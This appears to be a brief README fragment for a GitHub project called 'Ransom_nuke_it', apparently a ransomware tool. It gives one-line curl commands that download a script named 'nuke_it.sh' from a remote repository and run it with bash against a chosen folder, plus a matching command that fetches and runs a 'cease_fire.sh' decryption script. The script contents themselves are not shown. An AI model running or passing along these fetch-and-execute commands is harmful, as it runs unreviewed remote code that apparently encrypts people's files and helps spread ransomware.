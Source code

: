 Download image and run nuke_it.sh directly
-------------------------------------------
curl -O https://raw.githubusercontent.com/sectorxatwork/Ransom_nuke_it/refs/heads/main/nuke_it.sh && bash nuke_it.sh <folder>


Decryption 
-------------
curl -O https://raw.githubusercontent.com/sectorxatwork/Ransom_nuke_it/refs/heads/main/cease_fire.sh && bash cease_fire.sh
